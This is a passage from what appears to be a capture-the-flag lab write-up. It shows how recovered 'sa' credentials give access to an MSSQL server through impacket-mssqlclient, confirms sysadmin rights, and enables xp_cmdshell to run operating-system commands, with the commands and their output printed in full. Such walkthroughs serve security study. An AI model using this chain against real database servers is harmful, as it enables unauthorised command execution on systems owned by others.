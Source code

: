 Which I thought was useless at this point. But we'll see how this is a a key thing too reconstruct the attack for the foothold.

### MSSQL

With the sa user credentials we found, let's connect to the MSSQL server :

```bash
impacket-mssqlclient 'sa:MSSQLP@ssw0rd!@10.10.11.51'
```

```bash
SQL (sa  dbo@master)> select user_name()
      
---   
dbo   

SQL (sa  dbo@master)> select is_srvrolemember('sysadmin')
    
-   
1
SQL (sa  dbo@master)> SELECT name FROM master.sys.tables;
---------------------   
spt_fallback_db         

spt_fallback_dev        

spt_fallback_usg        

spt_monitor             

MSreplication_options 
```

This showed only system tables, nothing not ordinary so we should proceed further to xp\_cmdshell:

```bash
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;  
EXEC xp_cmdshell 'whoami';
output           
--------------   
sequel\sql_svc   

NULL  
```

So we can now execute commands through the MSSQL server
